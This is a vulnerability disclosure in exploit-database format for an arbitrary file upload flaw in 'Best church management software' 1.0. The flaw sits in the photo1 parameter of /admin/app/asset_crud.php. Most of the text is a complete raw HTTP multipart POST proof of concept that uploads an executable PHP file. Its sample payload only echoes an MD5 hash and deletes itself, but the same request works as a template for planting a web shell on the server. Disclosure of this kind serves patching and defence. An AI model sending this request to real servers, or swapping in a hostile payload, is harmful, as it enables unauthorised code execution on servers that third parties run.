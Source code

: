 ### Exploit Title: Best church management software - Arbitrary File Upload
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./admin/app/asset_crud.php Parameter photo1 has Arbitrary File Upload

### Arbitrary File Upload request POC #1

```
POST /admin/app/asset_crud.php HTTP/1.1
Host: 127.0.0.1:8001
Content-Length: 318
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycwG0T0E49sibAByg
Cache-Control: no-cache
Accept: */*
Origin: chrome-extension://coohjcphdfgbiolnekdpbcijmhambjff
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarycwG0T0E49sibAByg
Content-Disposition: form-data; name="submit"

1
------WebKitFormBoundarycwG0T0E49sibAByg
Content-Disposition: form-data; name="photo1"; filename="echomd51.php"
Content-Type: text/php

<?php echo md5(1);unlink(__FILE__); ?>
------WebKitFormBoundarycwG0T0E49sibAByg--

```
### Arbitrary File Upload
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739244088000.jpg "Best church management software")


